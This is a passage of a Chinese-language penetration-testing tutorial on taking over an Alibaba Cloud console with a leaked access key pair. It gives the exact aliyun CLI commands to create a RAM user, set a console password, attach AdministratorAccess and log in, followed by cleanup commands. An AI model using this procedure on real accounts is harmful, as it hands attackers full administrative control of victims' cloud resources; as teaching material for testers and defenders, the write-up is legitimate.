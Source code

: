 返回Requesid就是赋权成功了

然后我们现在来调试一下，验证我们是否赋权成功

这样我们的账号就拥有权限了，我们再去登陆试试，

ok，登陆成功

## 接管流程

现在整个接管流程就走完一遍了，大概分以下几步

创建账号——&gt;指定密码——&gt;查询别名——&gt;给用户赋权——&gt;登录web控制台

## 命令行接管控制台

但是在正儿八经渗透的过程中，只有一个aksk，我们可以用阿里云的cli，完成上文的操作

安装方法放这里，我用的是windows，其余的不放了，大家可以自行查询<br/>[如何在Windows上使用安装包安装阿里云CLI_阿里云CLI-阿里云帮助中心](https://help.aliyun.com/document_detail/121510.html)

安装配置好环境变量之后，验证下版本，如下图所示就是安装成功了

ok那么继续我们的操作，用命令行的方式来手动接管阿里云控制台<br/> 输入ak、sk、Region就是地区，语言选择zh中文，配置好之后

出现下面这一坨welcome to use alibaba cloud就是配置成功了,上文已经讲了创建用户的流程，接下来就是用命令行操作一遍

输入 `aliyun ram GetAccountAlias`查询账号别名

接下来创建账号，输入`aliyun ram CreateUser --UserName molitest111`

出现下面这种返回值就是创建成功了

然后调用`CreateLoginProfile`接口给这个账号添加web控制台的权限，并加上密码

`aliyun ram CreateLoginProfile --UserName molitest111 --Password Poker安全`

然后`aliyun ram ListUsers` 查看用户创建成功没

添加好之后，接下来调用ListPolicies接口 列出权限策略 给刚才创建的用户加上权限

记住这个PolicyName和PolicyType

调用AttachPolicyToUser 接口给用户加上权限

`aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName molitest111`

出现下图就是成功了

如果命令实在是不好记 可以直接用aliyun ram，会列出当前模块的功能（太多就不截全了）

然后就是登录了，账号@别名，密码就是自己设置的密码，记不住就往上翻，这里不放登录的图了

说下怎么删除账号，因为我们是管理员权限，所以先要取消权限

`aliyun ram DetachPolicyFromUser --PolicyType System --PolicyName AdministratorAccess --UserName molitest111`

然后删除用户

`aliyun ram DeleteUser --UserName molitest111`
